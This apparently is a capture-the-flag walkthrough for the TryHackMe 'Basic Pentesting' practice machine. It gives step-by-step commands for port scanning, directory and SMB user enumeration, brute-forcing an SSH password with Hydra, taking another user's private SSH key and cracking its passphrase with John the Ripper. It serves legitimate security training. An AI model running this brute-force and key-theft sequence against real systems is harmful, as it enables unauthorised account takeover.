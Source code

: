 # Basic Pentesting

LINK = [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)

### FYI
This writeup don't include any passwords/cracked hashes/flags

# Description
This is a machine that allows you to practise web app hacking and privilege escalation

# Steps

1 - Join the room, start the virtual machine and the AttackBox (or connect via VPN)

2 - Scan the virtual machine to find the open port ```nmap -sV {IP-ADDRESS}```

3 - Discover hiden directorties in the webserver ```gobuster dir -u {IP-ADDRESS} -w wordlist.txt```

4 - Enumerate users in the SMB service using ```enum4linux -a {IP-ADDRESS}```

5 - Now that you have one user you can use Hydra to get the password
* ```hydra -l {USERNAME} -P /usr/share/wordlists/rockyou.txt ssh://{IP-ADDRESS}```

6 - Connect via ssh to the machine with the user and password

7 - The second user has the final password that you are looking for but you can access for lack of permissions

8 - The second user has the private ssh certificate in the ```.ssh/id_rsa``` directory

9 - Copy that file and convert the certificate in a format that John the Ripper can understand
* ```/opt/john/ssh2john.py id_rsa > hash.txt```

10 - Use John the Ripper to crack the password of the hash
* ```john hash.txt --wordlist=/use/share/wordlist/rockyou.txt```

11 - Use the certiticate and the password to conect to the virtual machine
* ```ssh -i id_rsa {USERNAME}@{IP-ADDRESS}```

12 - Get the flag!! 😎
